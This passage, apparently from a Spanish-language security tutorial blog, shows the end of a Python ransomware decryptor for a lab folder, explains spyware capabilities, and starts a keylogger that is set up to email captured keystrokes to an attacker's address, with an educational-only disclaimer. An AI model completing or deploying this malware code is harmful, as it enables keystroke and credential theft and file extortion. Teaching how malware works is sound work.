 ```Python
            contenido_descifrado = fernet.decrypt(contenido_cifrado)
            with open(ruta_archivo, "wb") as archivo_obj:
                archivo_obj.write(contenido_descifrado)
            print(f"Archivo descifrado: {archivo}")

# Programa principal
def ejecutar_descifrador():
    clave = cargar_clave()
    directorio_objetivo = "./archivos_victima"  # Cambiar según tu laboratorio
    descifrar_archivos(directorio_objetivo, clave)

if __name__ == "__main__":
    ejecutar_descifrador()

```

**Paso a paso**
- Cargar la clave secreta: El atacante carga la clave secreta.
- Descifrar los archivos: La función descifrar_archivos recorre los archivos en el directorio especificado, y descifra su contenido usando la clave.
- Ejecución del descifrador: Es la función principal del atacante, se encarga de cargar la clave y descifrar los archivos de la victima.

### Spyware

#### ¿Como funciona y que información roba?

Este es un tipo de malware diseñado para espiar a los usuarios sin que estos tengan conocimiento de el, recopilando información y enviándola al atacante. Este software malicioso se ejecuta de manera sigilosa en el sistema de la víctima.

¿Que puede hacer?

1. **Registrar pulsaciones de teclado**, para capturar contraseñas, por ejemplo.
2. **Capturar pantallas**, útil para robar credenciales.
3. **Monitorear actividad en internet**, como por ejemplo historial de navegación.
4. **Rastrear ubicación.**
5. **Controlar cámaras y micrófonos.**
6. **Robar credenciales almacenadas.**

#### Ejemplo práctico

Ahora voy a mostrar un ejemplo de Spyware, en esta ocasión, será un keylogger. Un programa que registra y envía las pulsaciones de nuestros teclados.




> **Nota importante:** Me gustaría recordar que esto es solo educativo y no debe de usarse de forma maliciosa.
{: .prompt-warning }




``` Python
from pynput.keyboard import Listener
import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
import os
import time

# Configuración del correo electrónico
EMAIL = "tu_correo@gmail.com"  # Cambia por tu correo
PASSWORD = "tu_contraseña"      # Cambia por tu contraseña
DESTINATARIO = "correo_atacante@gmail.com"

# Archivo temporal para almacenar las pulsaciones
```